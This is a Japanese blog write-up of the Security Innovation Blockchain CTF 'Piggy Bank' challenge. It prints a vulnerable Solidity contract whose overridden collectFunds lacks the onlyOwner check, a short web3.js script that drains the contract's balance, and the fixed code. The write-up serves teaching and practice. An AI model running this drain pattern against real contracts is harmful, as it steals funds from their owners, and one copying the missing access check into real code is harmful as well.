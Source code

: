 +++
title = "[Security Innovation Blockchain CTF] Piggy Bank"
date = "2022-06-04"
tags = [
    "security",
    "ctf",
]
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Piggy Bank](https://blockchain-ctf.securityinnovation.com/#/game/1)という問題を解きました。

#### 問題

貯金箱のようなアプリで、ownerのみが資金を出し入れできる実装になっています。

<img src=./dapps.png><br>

#### ソースコードを読む

`PiggyBank`というコントラクトが本体の実装になっており、`CharliesPiggyBank`はそれを継承したアプリです。

`CharliesPiggyBank`は、`collectFunds`という資金引き出し用の関数のみをoverrideしています。

`PiggyBank`には`onlyOwner`というmodifierが付いているものの、`CharliesPiggyBank`でoverrideされた関数では、modifierが付与されていません。

そのため、継承先のアプリでは`collectFunds`が誰でも呼び出し可能になっているようです。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";
import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract PiggyBank is CtfFramework{

    using SafeMath for uint256;

    uint256 public piggyBalance;
    string public name;
    address public owner;

    constructor(address _ctfLauncher, address _player, string _name) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        name=_name;
        owner=msg.sender;
        piggyBalance=piggyBalance.add(msg.value);
    }

    function() external payable ctf{
        piggyBalance=piggyBalance.add(msg.value);
    }


    modifier onlyOwner(){
        require(msg.sender == owner, "Unauthorized: Not Owner");
        _;
    }

    function withdraw(uint256 amount) internal{
        piggyBalance = piggyBalance.sub(amount);
        msg.sender.transfer(amount);
    }

    function collectFunds(uint256 amount) public onlyOwner ctf{
        require(amount<=piggyBalance, "Insufficient Funds in Contract");
        withdraw(amount);
    }

}

contract CharliesPiggyBank is PiggyBank{

    uint256 public withdrawlCount;

    constructor(address _ctfLauncher, address _player) public payable
        PiggyBank(_ctfLauncher, _player, "Charlie") 
    {
        withdrawlCount = 0;
    }

    function collectFunds(uint256 amount) public ctf{
        require(amount<=piggyBalance, "Insufficient Funds in Contract");
        withdrawlCount = withdrawlCount.add(1);
        withdraw(amount);
    }
}
```

#### エクスプロイト

```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")
const fs = require('fs');

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
const abi = JSON.parse(fs.readFileSync('./src/abi.json'))
const contract = new web3.eth.Contract(abi, '0x27e03071617a155c88603ffc322262c47b209d03')
contract.methods.piggyBalance().call().then(wei => {
  const option = {from: '0xd7544D522B75347b48917649ebc5D334b3D43445'}
  contract.methods.collectFunds(wei).send(option)
})
```

#### どう実装されているべきか

modifierはoverrideされた関数には継承されないため、overrideした関数にも正しいmodifierを付与する必要があります。

```solidity
    function collectFunds(uint256 amount) public onlyOwner ctf{
        require(amount<=piggyBalance, "Insufficient Funds in Contract");
        withdrawlCount = withdrawlCount.add(1);
        withdraw(amount);
    }
```
